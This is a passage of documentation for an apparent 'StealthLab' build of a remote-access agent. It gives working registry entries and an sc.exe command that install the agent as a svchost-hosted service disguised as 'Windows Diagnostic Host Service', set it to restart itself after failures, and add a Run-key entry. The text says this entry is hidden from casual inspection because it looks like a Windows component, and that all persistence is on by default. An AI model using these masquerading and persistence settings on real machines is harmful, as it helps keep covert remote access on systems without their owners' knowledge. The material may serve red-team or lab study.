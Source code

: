 #### Svchost-Hosted Mode
```registry
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WinDiagnosticHost]
"Type"=dword:00000020          ; SERVICE_WIN32_SHARE_PROCESS
"Start"=dword:00000002         ; SERVICE_AUTO_START
"ErrorControl"=dword:00000001
"ImagePath"="%SystemRoot%\\System32\\svchost.exe -k netsvcs -p"
"DisplayName"="Windows Diagnostic Host Service"
"Description"="system health monitoring..."
"ObjectName"="LocalSystem"

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WinDiagnosticHost\Parameters]
"ServiceDll"="%SystemRoot%\\System32\\DiagnosticHost\\diagsvc.dll"
"ServiceMain"="Stealth_SvchostServiceMain"

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost]
"netsvcs"=<add "WinDiagnosticHost" to multistring>
```

### Service Failure Recovery

```powershell
sc.exe failure WinDiagnosticHost reset= 86400 actions= restart/10000/restart/30000/restart/60000
```

| Failure # | Action | Delay |
|-----------|--------|-------|
| First failure | Restart service | 10 seconds |
| Second failure | Restart service | 30 seconds |
| Subsequent failures | Restart service | 60 seconds |
| Reset period | - | 24 hours |

---

## Persistence Mechanisms

All persistence mechanisms are **ENABLED by default** in StealthLab builds (`MESH_AGENT_PERSIST_*=1`).

### 1. Registry Run Key Persistence

**Flag:** `MESH_AGENT_PERSIST_RUNKEY=1`

**Registry Location:**
```registry
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]
"Windows Diagnostic Host"="net start WinDiagnosticHost"
```

**Behavior:**
- Executes on user logon
- Ensures service starts even if startup is disabled
- Hidden from casual inspection (looks like Windows component)
